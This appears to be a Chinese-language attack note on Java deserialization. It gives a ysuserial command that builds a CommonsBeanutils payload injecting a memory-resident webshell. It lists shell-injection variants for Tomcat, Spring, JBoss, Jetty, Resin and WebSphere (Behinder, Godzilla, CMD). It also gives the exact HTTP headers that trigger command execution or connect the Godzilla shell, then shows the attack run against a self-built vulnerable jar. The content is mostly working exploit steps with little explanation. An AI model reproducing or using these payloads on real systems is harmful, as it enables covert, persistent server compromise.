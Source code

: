 <a name="BPj46"></a>
## aced反序列化生成
生成文件，然后用go编码获取aced，注意不能在powershell终端下，不然编码会有问题
```java
java -jar ysuserial-0.9-su18-all.jar -g CommonsBeanutils161NOCC -p 'EX-MS-SpringInterceptorMS-cmd'  >6.ser
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667894551701-9acbc24d-52bd-4714-bcb4-55e3e704ac10.png#clientId=u18c2001f-1a72-4&from=paste&height=353&id=gVvC9&originHeight=441&originWidth=1002&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33402&status=done&style=none&taskId=uf64ffc10-f651-4189-99fb-b51a1068ec7&title=&width=801.6)<br />- `EX-MS-TSMSFromThread-bx`：`冰蝎` 逻辑内存马<br />- `EX-MS-TSMSFromThread-gz`：`哥斯拉` Base64 逻辑内存马<br />- `EX-MS-TSMSFromThread-gzraw`：`哥斯拉` RAW 逻辑内存马<br />- `EX-MS-TSMSFromThread-cmd`：`CMD` 命令回显内存马
```java
EX-MS-SpringInterceptorMS-...:Injecting Spring Interceptor Memory Shell
EX-MS-TFMSFromJMX-...:Injecting Tomcat Filter Memory Shell through JMX MBeans
EX-MS-TFMSFromThread-...:Injecting Tomcat Filter Memory Shell through Thread Context
EX-MS-TLMSFromThread-...:Injecting Tomcat Listener Memory Shell through Thread Context
EX-MS-TSMSFromJMX-...:Injecting Tomcat Servlet Memory Shell through JMX MBeans
EX-MS-TSMSFromThread-...:Injecting Tomcat Servlet Memory Shell through Thread Context
EX-MS-JBFMSFromContext-...:Injecting JBoss/Wildfly Filter Memory Shell through Thread Context
EX-MS-JBSMSFromContext-...:Injecting JBoss/Wildfly Servlet Memory Shell through Thread Context
EX-MS-JFMSFromJMX-...:Injecting Jetty Filter Memory Shell through JMX MBeans
EX-MS-JSMSFromJMX-...:Injecting Jetty Servlet Memory Shell through JMX MBeans
EX-MS-RFMSFromThread-...:Injecting Resin Filter Memory Shell through Thread Context
EX-MS-RSMSFromThread-...:Injecting Resin Servlet Memory Shell through Thread Context
EX-MS-WSFMSFromThread-...:Injecting Websphere Filter Memory Shell through Thread Context
EX-MS-RMIBindTemplate-...:RMI Memory Shell
```

<a name="OIgYD"></a>
## 执行命令方式
X-Token-Data: ls -al<br />Referer: [https://su18.org/](https://su18.org/)<br />X-SSRF-TOKEN: ce<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667894956800-9ebd2963-59bd-4ea0-811a-d7d16ddf41ff.png#clientId=u18c2001f-1a72-4&from=paste&height=454&id=u9f83a96a&originHeight=567&originWidth=1458&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39169&status=done&style=none&taskId=u1fb141d1-0b88-41cc-8692-cc21a43753e&title=&width=1166.4)
<a name="Q37gX"></a>
## 哥斯拉连接
添加的header
```java
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
X-SSRF-TOKEN: gz
X-Token-Data: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: https://su18.org/

```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667895024092-20deb529-d957-4383-9b40-d69259906953.png#clientId=u18c2001f-1a72-4&from=paste&height=182&id=u7668c527&originHeight=228&originWidth=595&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54014&status=done&style=none&taskId=uc6a760e7-8faa-4454-bfce-f8ca3ff5969&title=&width=476)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667895010153-57393f4d-019b-4a80-8e85-baad289c372d.png#clientId=u18c2001f-1a72-4&from=paste&height=232&id=u5b3f8265&originHeight=290&originWidth=480&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24900&status=done&style=none&taskId=u8755b93a-7635-4b19-8d40-c5f8bcba951&title=&width=384)
<a name="eK7dX"></a>
## 漏洞环境
编译了个漏洞环境打包成jar     java -jar /root/桌面/mycert-0.0.1-SNAPSHOT.jar<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667894709490-82baec7f-2484-470f-bc71-f6831ae9f924.png#clientId=u18c2001f-1a72-4&from=paste&height=565&id=u4f97a148&originHeight=706&originWidth=1188&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71612&status=done&style=none&taskId=u551c5aef-5b2d-438b-b3ba-c4f07cbe766&title=&width=950.4)

打一波漏洞<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667895890645-474cace9-188a-4318-a1ea-f622ed6437df.png#clientId=u18c2001f-1a72-4&from=paste&height=518&id=u44dbd2a7&originHeight=647&originWidth=1599&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56785&status=done&style=none&taskId=u36db5c1a-69fe-4073-956c-aff1492c6a8&title=&width=1279.2)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667896321099-e46df514-d27f-4e64-82cd-4176e9c219f7.png#clientId=u18c2001f-1a72-4&from=paste&height=598&id=ua29a2b6d&originHeight=747&originWidth=968&originalType=binary&ratio=1&rotation=0&showTitle=false&size=80032&status=done&style=none&taskId=u47e65085-8aec-4fa8-85e0-6c855861a2c&title=&width=774.4)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667896403250-1e3a5ee6-6e4d-4a01-a7cd-0b76bab60cd7.png#clientId=u18c2001f-1a72-4&from=paste&height=522&id=u4bd98407&originHeight=653&originWidth=1388&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38608&status=done&style=none&taskId=uc796bcd9-4d9b-4b61-a301-c80a00486f6&title=&width=1110.4)
